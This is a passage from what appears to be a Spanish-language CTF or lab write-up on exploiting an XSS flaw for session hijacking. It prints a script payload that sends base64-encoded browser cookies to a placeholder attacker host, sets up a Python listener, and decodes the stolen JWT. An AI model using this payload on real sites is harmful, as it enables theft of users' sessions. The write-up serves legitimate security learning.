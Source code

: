 Y cuando lo creo me devuelve esto.

![](xss.png)

Efectivamente tenemos una vulnerabilidad **XSS**.



## Explotación I:

Para aprovecharnos de esta vulnerabilidad vamos intentar hacer un “**Session Hijacking**”. Esta técnica consiste en aprovecharse de esta vulnerabilidad XSS para inyectar código malicioso en la web.

Lo vamos a realizar mediante este pequeño payload.

`<script> var i = new Image();  i.src = "http://IP_ATTAKER:PORT/?cookie=" + btoa(document.cookie);</script>`

![](xss1.png)

En mi caso he utilizado el puerto 8000 para la escucha. Por lo tanto, me creo un servidor en python para poder realizar la escucha.

`python -m http.server 8000`

![](escucha.png)

Una vez en escucha ejecutamos el payload dándole al botón **“Submit Query”** de la web y esperamos.

![](cookie.png)

Esto es lo que me devuelve, al parecer es una cookie lo que pasa es que está encodeado en Base64.

Este es el comando para decodificarla, también se puede hacer mediante **CyberChef**.

`echo "CONTENT" | base64 -d`

![](token.png)

Hay otra manera de sacar la cookie que es mediante el **Inspector** de la página (F12), pero esto nos servirá para después.

Vamos a leer la cookie a ver que información nos puede dar.

Con **jwt.io** podemos ver el contenido de la cookie.

![](jwi.png)

Lo primero que se me ocurre es cambiar el “admin”: false por “admin”: true, pero esto no tiene efecto porque al parecer está bien securizado y, por otro lado, no tenemos la clave secreta.



## Explotación II:

Analizando la web veo que hay dos apartados dentro de listado creado anteriormente.

![](web2.png)
